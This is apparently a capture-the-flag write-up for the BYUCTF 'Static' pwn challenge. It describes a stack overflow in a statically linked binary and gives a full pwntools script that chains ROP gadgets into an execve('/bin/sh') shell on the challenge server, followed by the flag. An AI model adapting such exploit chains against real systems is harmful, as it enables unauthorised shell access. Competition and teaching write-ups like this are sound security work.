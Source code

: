 https://ctftime.org/event/2252/

# Static (Pwn)

So I heard all about these binary exploitation attacks involving libraries and libc, and that's got me worried! I decided to statically compile all of my binaries to avoid those attack vectors. This means I don't need to worry about mitigations, right?

Right??

nc static.chal.cyberjousting.com 1350

## Binary Analysis

`vuln` @ `0x004017e8`:
- `read`'s up to `0x100` bytes to a buffer on the stack at `-0x12`

The binary is statically linked.

## Solution

We will use a `syscall` gadget to perform `execve("/bin/sh\x00", 0, 0)`.

### Preparing String Arguments

In order to make the call to `execve` we need to be able to point the string `"/bin/sh\x00"`.

Through debugging its possible to determine that value of the register `rsi` closely relates to address of the start the buffer we control on the stack.

By starting our payload with `"/bin/sh\x00"` and then copying from and making adjustments to the value in `rsi` we are able to set `rdi = "/bin/sh\x00"`.

### Collecting Gadgets

Much of the challenge of this task comes from the limited availability of gadgets.

Gadgets were discovered using `ROPgadget` as follows:

```
$ ROPgadget --binary ./static
```

A particular challenge for me taking control over `rdi` which should point to the string `"/bin/sh\x00"` in memory when calling `execve`.

I ended up using a combination of the following:

```
# 0x464c94 : lea rdx, [rax + 8] ; cmp rcx, rsi ; jb 0x464c81 ; ret
# 0x4299de : mov rdi, rdx ; call rsi ;
```

I won't go over every gadget here instead see the final exploit for the final selection.

### Final Exploit

Note that great care is taken to ensure that both `rsi` and `rdx`, that is the values of `argv` and `envp`, are set to `0` prior to the `syscall` instruction's execution.

```
from pwn import *

p = remote("static.chal.cyberjousting.com", 1350)

SYSCALL = 0x401194
POP_RAX = 0x41069c
POP_RSI = 0x4062d8
POP_RBP = 0x401761
POP_R15 = 0x401fdf
POP_RBX = 0x40166f
POP_R12 = 0x4023e7
MOV_RAX_RSI = 0x425d07
ADD_RAX_RSI = 0x426534
MOV_RCX_RAX_MOV_RAX_RCX = 0x404606
MOV_RDI_RDX_CALL_RSI = 0x4299de
MOV_RSI_RBP_CALL_R15 = 0x45edc9
MOV_RDX_RBP_CALL_RBX = 0x44499e

# 0x464c94 : lea rdx, [rax + 8] ; cmp rcx, rsi ; jb 0x464c81 ; ret
LEA_RDX_RAX = 0x464c94

payload = b""
payload += b"/bin/sh\x00"
payload = payload.rjust(0x12, b"A")
payload += p64(POP_RAX)
payload += p64(1)
payload += p64(MOV_RCX_RAX_MOV_RAX_RCX)
payload += p64(MOV_RAX_RSI)
payload += p64(POP_RSI)
payload += p64(2)
payload += p64(ADD_RAX_RSI)
payload += p64(POP_RSI)
payload += p64(0)
payload += p64(LEA_RDX_RAX)
payload += p64(POP_RAX)
payload += p64(0x3b) # EXECVE
payload += p64(POP_RBP)
payload += p64(0)
payload += p64(POP_RBX)
payload += p64(SYSCALL)
payload += p64(POP_R15)
payload += p64(MOV_RDX_RBP_CALL_RBX)
payload += p64(POP_RSI)
payload += p64(MOV_RSI_RBP_CALL_R15)
payload += p64(MOV_RDI_RDX_CALL_RSI)

p.sendline(payload)

p.interactive()
```

## Flag
`byuctf{glaD_you_c0uld_improvise_ROP_with_no_provided_gadgets!}`
